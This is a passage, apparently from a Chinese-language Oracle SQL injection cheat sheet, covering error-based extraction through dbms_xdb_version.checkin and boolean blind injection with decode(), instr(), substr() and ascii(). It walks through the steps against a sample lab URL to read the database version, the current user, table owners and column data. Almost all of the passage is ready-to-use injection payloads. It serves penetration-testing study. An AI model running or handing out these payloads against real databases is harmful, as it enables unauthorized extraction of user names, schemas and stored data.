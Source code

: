 ```
id=1 and dbms_xdb_version.checkin((select column_name from user_tab_columns where rownum=1 and table_name='FLAG' AND column_name not in ('id','name','pwd','flag'))) is not null--

5.**查询表字段数据** 
id=1 and dbms_xdb_version.checkin((select NAME||AGE FROM DEMO where rownum=1)) is not null--
id=1 and dbms_xdb_version.checkin((select "name"||"age" FROM DEMO where rownum=1)) is not null--
id=1 and dbms_xdb_version.checkin((select 'username:'||NAME||'age:'||AGE FROM DEMO where rownum=1)) is not null--
```

### bool盲注

> **bool盲注相关函数**

1. **decode()函数**

- **用法** ：decode(条件,值1，翻译值1，值2，翻译值2… 值n, 翻译值n，缺省值)
- **含义** ：if(条件 == 值1) -> 返回翻译值1，否则返回默认值
- **举例** ：查询 Oracle版本,判断版本的字符串第一个字符是否是O
- **Payload** :

```
and 1=(select decode(substr((select banner from sys.v_$Version where rownum=1),1,1), 'O', 1, 0) from dual--
```

- **说明** ：其中 select语句可以替换，如:
- 获取当前用户: selectuser from dual;
- 获取字符长度: select length(user) from dual;

1. **instr()** ** 函数**

- **用法** ：instr( string1, string2 ) / instr(源字符串,目标字符)
- **含义** ：搜索指定的字符返回发现指定的字符的位置, string1是被搜索的字符串, string2是希望搜索的字符串
- **注入思路** : instr会返回’SQL’位置数据在査询结果中的位置，未找到便返回0，可通过对‘SQL′位置进行遍历和迭代,获取到数据
- **举例** ：查询当前的用户，判断用户名第一个字符是否是T
- **Payload** ：

```
and 1=(instr((select user from dual),'T'))--
```

> **Oracle bool盲注基本流程**

```
**1.判断注入** 
http://172.16.12.2:81/orcl.php?id=1' " and 1=1 and '1'='1' or '1'='1'

2.**查询数据库版本/用户** 
decode decode(substr(('abc'),1,1),'a',1,0)
length 返回字符串长度
ascii  返回字符的ascii码
instr  搜索指定结果内是否包含关键字 存在返回1 否则返回0
id=1 and 1=(select decode(substr((select banner from sys.v_$version where rownum=1),1,1),'O',1,0) from dual)--
id=1 and (select length(user) from dual)=4-- 
id=1 and (select ascii('a') from dual)=97-- 
id=1 and (select ascii(substr((select user from dual),1,1)) from dual)=84-- #ascii码判断字符 T
id=1 and (select ascii(substr((select user from dual),2,1)) from dual)=69-- #ascii码判断字符 E

id=1 and 1=(instr((select user from dual),'T'))--
id=1 and 1=(instr((select user from dual),'TE'))--
id=1 and 1=(instr((select user from dual),'TES'))--
id=1 and 1=(instr((select user from dual),'TEST'))--

**3.获取库名** 
id=1 and (select length(owner) from all_tables where rownum=1)=3-- #第一个库名长度为3
id=1 and (select ascii(substr((select owner from all_tables where rownum=1),1,1)) from dual)=83--
```